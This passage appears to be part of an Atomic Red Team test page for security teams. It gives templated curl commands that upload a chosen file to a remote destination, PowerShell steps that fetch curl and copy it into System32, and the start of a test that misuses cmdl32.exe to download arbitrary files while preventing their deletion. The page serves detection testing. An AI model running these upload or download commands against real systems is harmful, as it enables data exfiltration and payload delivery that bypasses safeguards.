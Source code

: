 
#### Attack Commands: Run with `command_prompt`! 


```cmd
#{curl_path} -T #{file_path} #{remote_destination}
#{curl_path} --upload-file #{file_path} #{remote_destination}
#{curl_path} -d #{file_path} #{remote_destination}
#{curl_path} --data #{file_path} #{remote_destination}
```




#### Dependencies:  Run with `powershell`!
##### Description: Curl must be installed on system.
##### Check Prereq Commands:
```powershell
if (Test-Path #{curl_path}) {exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
Invoke-WebRequest "https://curl.se/windows/dl-7.79.1/curl-7.79.1-win64-mingw.zip" -Outfile PathToAtomicsFolder\..\ExternalPayloads\curl.zip
Expand-Archive -Path "PathToAtomicsFolder\..\ExternalPayloads\curl.zip" -DestinationPath "PathToAtomicsFolder\..\ExternalPayloads\curl"
Copy-Item "PathToAtomicsFolder\..\ExternalPayloads\curl\curl-7.79.1-win64-mingw\bin\curl.exe" C:\Windows\System32\Curl.exe
Remove-Item "PathToAtomicsFolder\..\ExternalPayloads\curl"
Remove-Item "PathToAtomicsFolder\..\ExternalPayloads\curl.zip"
```
##### Description: A file must be created to upload
##### Check Prereq Commands:
```powershell
if (Test-Path #{file_path}) {exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
echo "This is an Atomic Test File" > #{file_path}
```




<br/>
<br/>

## Atomic Test #20 - Download a file with Microsoft Connection Manager Auto-Download
Uses the cmdl32 to download arbitrary file from the internet. The cmdl32 package is allowed to install the profile used to launch the VPN connection. However, the config is modified to download the arbitary file. 
The issue of cmdl32.exe detecting and deleting the payload by identifying it as not a VPN Servers profile is avoided by setting a temporary TMP folder and denying the delete permission to all files for the user.
Upon successful execution the test will open calculator and Notepad executable for 10 seconds.
reference:
https://twitter.com/ElliotKillick/status/1455897435063074824
https://github.com/LOLBAS-Project/LOLBAS/pull/151
https://lolbas-project.github.io/lolbas/Binaries/Cmdl32/
https://strontic.github.io/xcyclopedia/library/cmdl32.exe-FA1D5B8802FFF4A85B6F52A52C871BBB.html
